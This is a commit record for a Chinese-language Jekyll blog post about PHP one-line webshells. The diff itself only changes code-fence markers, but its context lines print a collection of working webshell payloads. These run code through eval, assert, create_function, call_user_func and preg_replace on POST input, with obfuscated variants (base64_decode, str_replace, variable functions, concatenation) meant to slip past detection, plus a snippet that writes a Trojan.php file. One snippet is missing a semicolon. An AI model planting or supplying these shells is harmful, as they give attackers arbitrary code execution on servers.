

Before and after one commit to dyeat/dyeat.github.io, a Jekyll site: the page built from _posts/2018-12-18-PHP之一句話木馬.md, in a window 1280 px wide and 1400 px high, scrolled down 1315 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
update post

````diff
--- a/_posts/2018-12-18-PHP之一句話木馬.md
+++ b/_posts/2018-12-18-PHP之一句話木馬.md
@@ -14,7 +14,7 @@ tags: [php,web,security]
 我們可以通過`GET` 、`POST` 、`COOKIE`這三種方式向一個網站提交數據，一句話木馬用`$_GET[' ']`、`$_POST[' ']`、`$_COOKIE[' '] `接收我們傳遞的數據，並把接收的數據傳遞給一句話木馬中執行命令的函數，進而執行命令。
 所以看到的經典一句話木馬大多都是只有兩個部分，一個是可以執行代碼的函數部分，一個是接收數據的部分。**
 例如：
-```php=
+```php
 <?php eval(@$_POST['a']); ?>
 ```
 其中eval就是執行命令的函數，`$_POST['a']`就是接收的數據。 eval函數把接收的數據當作PHP代碼來執行。這樣我們就能夠讓插入了一句話木馬的網站執行我們傳遞過去的任意PHP語句。這便是一句話木馬的強大之處。
@@ -24,13 +24,13 @@ tags: [php,web,security]
 ### **使用 其他函數製作一句話木馬**
 
 #### **assert函數**
-```php=
+```php
 <?php assert(@$_POST['a']); ?>
 ```
 ---
 
 #### **create_function函數**
-```php=
+```php
 <?php
 $fun = create_function('',$_POST['a']);
 $fun();
@@ -42,7 +42,7 @@ $fun();
 ---
 
 #### **call_user_func回調函數**
-```php=
+```php
 <?php
 @call_user_func(assert,$_POST['a']);
 ?>
@@ -55,7 +55,7 @@ $fun();
 ---
 
 #### **preg_replace函數**
-```php=
+```php
 <?php
 @preg_replace("/abcde/e", $_POST['a'], "abcdefg");
 ?>
@@ -69,7 +69,7 @@ $fun();
 
 #### 利用函數生成木馬
 
-```php=
+```php
 <?php
 $test='<?php $a=$_POST["cmd"];assert($a); ?>';
 file_put_contents("Trojan.php", $test);
@@ -83,7 +83,8 @@ file_put_contents("Trojan.php", $test);
 
 
 #### **PHP變數函數**
-```php=
+
+```php
 <?php
 $a = "eval";
 $a(@$_POST['a']);
@@ -94,7 +95,7 @@ $a(@$_POST['a']);
 ---
 
 #### **PHP可變變數**
-```php=
+```php
 <?php
 $bb="eval";
 $a="bb";
@@ -107,7 +108,7 @@ $$aa($_POST['a']);
 ---
 
 #### **str_replace函數**
-```php=
+```php
 <?php
 $a=str_replace("Waldo", "", "eWaldoval");
 $a(@$_POST['a']);
@@ -119,7 +120,7 @@ $a(@$_POST['a']);
 ---
 
 #### **base64_decode函數**
-```php=
+```php
 <?php
 $a=base64_decode("ZXZhbA==")
 $a($_POST['a']);
@@ -131,7 +132,7 @@ $a($_POST['a']);
 ---
 
 ### **"."操作符號**
-```php=
+```php
 <?php
 $a="e"."v";
 $b="a"."l";
@@ -142,7 +143,7 @@ $c($_POST['a']);
 ---
 
 ### **parse_str函數**
-```php=
+```php
 <?php
 $str="a=eval";
 parse_str($str);
@@ -162,7 +163,7 @@ $a($_POST['a']);
 ---
 
 ### **再來一個小栗子**
-```php=1
+```php
 <?php
 function fun()
 {
````
